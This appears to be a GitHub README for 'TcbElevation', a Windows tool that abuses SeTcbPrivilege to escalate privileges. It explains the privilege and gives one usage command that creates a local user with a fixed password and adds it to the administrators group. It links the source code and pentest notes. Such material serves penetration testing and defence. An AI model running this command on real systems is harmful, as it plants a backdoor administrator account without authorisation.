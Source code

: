 # TcbElevation

SeTcbPrivilege, known as "Act as part of the operating system," is a security privilege in Windows operating systems. This privilege grants an account the ability to authenticate like any user and thus impersonate any user without authentication. Essentially, it allows a process to perform actions or access resources by impersonating any user, without needing their credentials. This is a highly sensitive privilege because it effectively allows bypassing security checks, making it a target for attackers who seek to elevate privileges or perform actions stealthily.

Due to its powerful nature, SeTcbPrivilege is typically reserved for critical system processes and is not granted to standard user accounts. In secure environments, it's essential to monitor and control which accounts have this privilege to mitigate potential security risks. Misuse of this privilege can lead to significant security vulnerabilities, allowing attackers to escalate their privileges on a system or network undetected.

# Usage

```powershell
.\TcbElevation.exe xtk "C:\Windows\System32\cmd.exe /c net user xtk Passw0rd123 /add && net localgroup administrators xtk /add"

Error starting service 1053
```
# Sources
The code comes from:
https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178

More info:
https://pentest.party/notes/windows/privilege-tcb
